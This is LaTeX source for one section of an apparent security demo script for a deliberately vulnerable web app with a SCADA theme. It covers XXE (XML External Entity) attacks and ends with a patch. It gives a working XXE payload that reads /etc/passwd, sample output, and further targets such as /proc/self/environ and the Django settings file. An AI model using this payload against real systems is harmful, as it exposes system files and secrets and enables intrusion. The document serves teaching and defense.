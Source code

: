 \documentclass[12pt,a4paper]{article}
\begin{document}
---

\subsubsection{8. XXE (XML External Entity) (2 min)}

\textbf{Tool:} Manual XML file creation + Browser

\textbf{Narration:}
\begin{quote}
\textit{"XXE vulnerability allows reading local files through malicious XML entities. The lxml parser resolves external entities by default."}
\end{quote}

\textbf{Exploit Steps:}
\begin{enumerate}
    \item Create \texttt{xxe\_payload.xml}:
    \begin{lstlisting}[language=XML]
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<device><name>&xxe;</name></device>
    \end{lstlisting}
    \item Navigate to \texttt{/vulnerable/upload/}
    \item Upload \texttt{xxe\_payload.xml}
    \item Page displays parsed XML content
    \item Contents of \texttt{/etc/passwd} visible!
\end{enumerate}

\textbf{Result Display:}
\begin{lstlisting}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
\end{lstlisting}

\textbf{Other Targets:}
\begin{itemize}
    \item \texttt{file:///etc/hostname} - Container hostname
    \item \texttt{file:///proc/self/environ} - Environment variables
    \item \texttt{file:///app/scada\_system/settings.py} - Django settings!
\end{itemize}

\textbf{Patch:}
\begin{lstlisting}[language=Python]
# Disable entity resolution
parser = etree.XMLParser(resolve_entities=False)
# OR use defusedxml library
from defusedxml import ElementTree
\end{lstlisting}
\end{document}
